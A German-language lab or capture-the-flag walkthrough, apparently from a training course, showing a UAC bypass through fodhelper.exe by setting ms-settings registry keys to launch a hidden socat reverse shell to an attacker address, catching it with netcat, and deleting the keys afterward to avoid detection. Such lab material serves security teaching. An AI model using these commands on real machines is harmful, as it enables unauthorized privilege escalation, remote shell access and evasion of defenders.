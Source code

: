 Wir setzen die erforderlichen Registrierungswerte, um die Klasse ms-settings mit einer Reverse Shell zu verknüpfen. Zur Vereinfachung finden Sie eine Kopie von **socat** unter `c:\tools\socat\`. Sie können die folgenden Befehle verwenden, um die erforderlichen Registrierungsschlüssel von einer Standard-Eingabeaufforderung aus festzulegen:
```cmd
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f
The operation completed successfully.
```

Beachten Sie, dass wir einen leeren Wert namens **DelegateExecute** erstellen müssen, damit die Klassenverknüpfung wirksam wird. Wenn dieser Registrierungswert nicht vorhanden ist, wird das Betriebssystem den Befehl ignorieren und stattdessen die systemweite Klassenverknüpfung verwenden.

Wir richten einen Listener auf unserem Rechner mit netcat ein:

`nc -lvp 4444`

Anschließend führen wir **fodhelper.exe** aus, was wiederum die Ausführung unserer Reverse Shell auslöst:  
![2024-07-08-2f1aef0aa39ffcf9056999c999e43b8d.png](Bilder/2024-07-08-2f1aef0aa39ffcf9056999c999e43b8d.png)

Die empfangene Shell läuft mit hoher Integrität, was anzeigt, dass wir die Benutzerkontensteuerung (UAC) erfolgreich umgangen haben.

Um die "fodhelper"-Flagge abzurufen, verwenden Sie Ihre neue Shell und führen Sie aus:
```cmd
C:\> C:\flags\GetFlag-fodhelper.exe
```

**Hinweis: Beachten Sie, dass die Flagge nur zurückgegeben wird, wenn Sie UAC erfolgreich über "fodhelper" umgangen haben und nur von der resultierenden Shell mit hoher Integrität.**


### Spuren beseitigen

Durch die Ausführung dieses Exploits wurden einige Artefakte in Form von Registrierungsschlüsseln auf dem Zielsystem erstellt. Um eine Erkennung zu vermeiden, müssen wir die Spuren mit dem folgenden Befehl beseitigen:
```cmd
reg delete HKCU\Software\Classes\ms-settings\ /f
```
